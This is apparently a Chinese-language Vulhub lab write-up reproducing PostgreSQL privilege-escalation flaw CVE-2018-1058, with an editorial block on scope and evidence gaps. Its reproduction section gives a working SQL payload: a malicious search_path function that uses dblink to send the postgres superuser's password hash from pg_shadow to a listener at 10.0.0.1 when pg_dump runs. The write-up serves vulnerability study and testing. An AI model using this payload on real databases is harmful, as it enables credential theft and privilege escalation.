


# PostgreSQL 提权漏洞 CVE-2018-1058

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：低权限用户可在受信 search_path schema 创建函数，特权用户执行 pg_dump；样例还需 dblink、出站连接等实验条件
- 证据范围：通过恶意同名函数诱导特权操作泄露 pg_shadow 的链条明确；账号和扩展来自缺失的 compose 环境定义

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 9.3至10只写主版本，不是精确受影响/修复范围
- docker-compose 指令没有环境仓库路径
- 应明确数据库普通用户、超级用户与监听端三个角色

### 操作风险与资料使用

- 文中的明文凭据、会话或密钥已用中段星号脱敏，保留首尾供比对；示例不能直接照抄登录。仅替换为自有隔离环境凭据，已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## 环境搭建

启动存在漏洞的环境：

```shell
docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

## 漏洞复现

Vulhub参考上述链接中的第二种利用方式，我们先通过普通用户`vulhub:vulhub`的身份登录postgres: `psql --host your-ip --username vulhub`



执行如下语句后退出：

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=c*****a sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

然后我在`10.0.0.1`上监听5433端口，等待超级用户触发我们留下的这个“后门”。

（假装自己是超级用户）在靶场机器下，用超级用户的身份执行`pg_dump`命令：`docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub`，导出vulhub这个数据库的内容。

执行上述命令的同时，“后门”已被触发，`10.0.0.1`机器上已收到敏感信息：



上述过程仅是该漏洞的一种利用方法，涉及到机器比较多可能有点乱，建议读者阅读参考链接中的文章，获取更多利用方法。


---

> 来源：Threekiii/Awesome-POC
